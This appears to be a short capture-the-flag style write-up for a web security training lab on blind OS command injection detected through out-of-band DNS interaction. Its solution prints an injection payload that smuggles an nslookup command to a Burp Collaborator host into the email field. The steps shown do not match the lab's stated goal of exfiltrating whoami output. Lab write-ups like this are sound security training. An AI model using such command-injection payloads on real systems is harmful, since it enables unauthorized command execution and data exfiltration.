



# Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. 
The command is executed asynchronously and has no effect on the application's response. 
It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

## Solution -

We first create a external server ie . collaborator server.

Copy the collaborator server link - ``http://zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net/``

Paste the payload ``& nslookup zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net #`` (URL - encode ) in the email parameter .

Now click SEND button, click POLL NOW button in burp collaborator` ,

#### Visit The Next Page For The Next Level :)
